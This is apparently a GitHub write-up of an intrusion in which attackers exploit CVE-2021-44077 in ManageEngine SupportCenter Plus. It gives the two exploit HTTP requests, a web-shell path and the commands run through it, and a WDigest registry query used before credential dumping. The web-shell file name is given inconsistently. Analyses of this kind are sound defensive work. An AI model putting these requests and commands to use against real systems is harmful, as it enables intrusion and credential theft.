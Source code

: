 # Attack Roadmap

### Will the Real Msiexec Please Stand Up? Exploit Leads to Data Exfiltration

<img src="AttackRoadmap.png"  width="20%" height="20%">

## Let's Summarize Each Step
#### 1. Exploit [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) The exploit looks very similar to a publicly available POC exploit on [GitHub](https://github.com/horizon3ai/CVE-2021-44077).
##### Exploit Method: RCE via two HTTP requests.
 - Request 1: POST request to /RestAPI/ImportTechnicians?step=1 contains `msiexec.exe` and was written to C:\Program Files\ManageEngine\SupportCenterPlus\bin\msiexec.exe.

 - Request 2: GET request to /RestAPI/s247action?execute=s247AgentInstallationProcess&apikey=asdasd, and invoke the uploaded `msiexec.exe`.

  ![image](https://github.com/user-attachments/assets/ce028655-d691-4c2d-86e3-370d9ce76742)

#### 2. Web Shell Deployment:
- The Malicous msiexec.exe contains encoded web shell once `msiexec.exe /i Site24x7WindowsAgent.msi EDITA1=asdasd /qn` there is a webshell file `jm2.jsp` written to `C:\Program Files\ManageEngine\SupportCenterPlus\custom\login\fm2.jsp`, this way will allow the threat actor to maintain the access with no need to execute the exploit once again.
- Now you have an access to the system through `http://<victim_ip:8080/custom/login/jm2.jsp` then you can `Execute Commands` and `View and Download files`
  
  ![image](https://github.com/user-attachments/assets/65b4b314-1bf1-44cb-b281-8c5fa18156ac)

#### 3. System Enumeration
- Then basic enumuration is made.
  ```
  https://server.example/custom/login/fm2.jsp?cmd=arp -a
  https://server.example/custom/login/fm2.jsp?cmd=systeminfo
  https://server.example/custom/login/fm2.jsp?cmd=tasklist
  https://server.example/custom/login/fm2.jsp?cmd=wmic computersystem get domain
  ```
#### 4. Credential Dumping
- The Threat Actor Checked if the `WDigest` is Enabled because When WDigest is Enabled LSASS stores passwords in Plaintext.
- Command Used:
  ```
  powershell.exe reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
  ```
  
